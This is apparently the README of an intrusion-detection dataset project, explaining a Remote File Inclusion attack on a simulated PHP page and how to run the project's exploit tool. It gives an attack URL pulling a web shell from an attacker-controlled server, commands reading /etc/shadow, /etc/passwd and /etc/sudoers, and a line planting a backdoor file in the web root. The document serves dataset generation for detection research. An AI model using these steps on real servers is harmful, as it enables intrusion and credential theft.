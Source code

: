 # **Remote File Inclusion**

## **Table of Contents**

* [Explaining the Attack](#explaining-the-attack)
* [**How to Use**](#how-to-use)
  * [**Configurations**](#configurations)
  * [**Interactive Mode**](#for-interactive-mode) 
  * [**Repeat Mode**](#for-repeat-mode)

<br/>


## **Explaining the attack**
---

<br/>

A Remote File Inclusion vulnerability is when an application dynamically references external scripts, and those references can be, in some way, manipulated by the attacker.

This attacker will try to use the vulnerability to reference a malware file (e.g. web shells) that will be then included by the application.

In our case we simulated a pretty basic web page with a RFI vulnerability:

![image](https://github.com/LeoPer02/IDS-Dataset/assets/101013606/acc8ea53-4b36-47bb-abee-5d1b4953c8c7)

If you look at the URL you can see that we are grabbing the value of `file`.

![image](https://github.com/LeoPer02/IDS-Dataset/assets/101013606/47180119-a87f-4233-9e67-e68540dbdef0)


Now looking at the code we can see that the php script grabs the value of `file` and includes it.
This of course is a big security problem, since the attacker controls the value of the file variable.

The way we exploit this vulnerability can be summed up in the following steps:

* Generate a web shell that will be uploaded into the web page.
* Open a listener for the the web shell.
* Send a request with a general format of: ```http://victim.com/vulnerable.php?file=http://attacker_controled_server.com/web_shell.php```.
* Receive connection.
  * If in interactive mode allow the user to send arbitrary commands.
  * If in repeat mode execute some commands likely to be used by an attacker ```cat /etc/passwd, cat /etc/shadow, pwd, whoami, uname -a```, etc. and then exit.

![image](https://github.com/LeoPer02/IDS-Dataset/assets/101013606/abca75f5-ed35-4224-b556-d15c9a99c10d)

This is the interface the user will be presented with when executing the attack in interactive mode.

<br/>

## **How to use**
---
<br/>

This exploit can be ran in **interactive** and **repeat** mode.

From the **/path/to/project/IDS-Dataset/Attacks/WP** folder,

<br/>

### **Configurations:**

If you built the victim machine from scratch using our script you can use the following settings for the RFI attack:

``` Shell
sudo python3 main.py -c # To start the configuration process

Attacker ip: # Check the ip address with ' ifconfig '
Victim ip: # Check the ip address with ' ifconfig '
Exploit: 6
HTTPS: n
Victim Port: 80
Resource to access: /file_inclusion.php?file=
Is it correct: y
Activate auditing: y # Make sure the server is on, check Aux README for information
```

<br/>

### **For interactive mode:**
``` Shell
sudo python3 main.py # Don't forget to configure the config.ini on the 1st attack
```

This will print an address in the terminal that when clicked on will redirect you to the web shell with interface.

<br/>

### **For Repeat mode:**
``` Shell
sudo python3 main.py -r {number_times}
```

<br/>

This will utilize the RFI vulnerability to execute a bunch of commands that are likely to be executed by an attacker:
``` Shell
whoami
ls
ls -ltr
cat /etc/shadow
cat /etc/passwd
cd /
id
netstat
uname -a
crontab -l
lsmod
cat /etc/sudoers
cat /etc/os-release
ip link show
cd $(grep -e DocumentRoot -R /etc/apache2/sites-enabled/ | awk '{ print $3 }') && echo 'PoC, injected through RFI' | cat > possible_backdoor.php
```

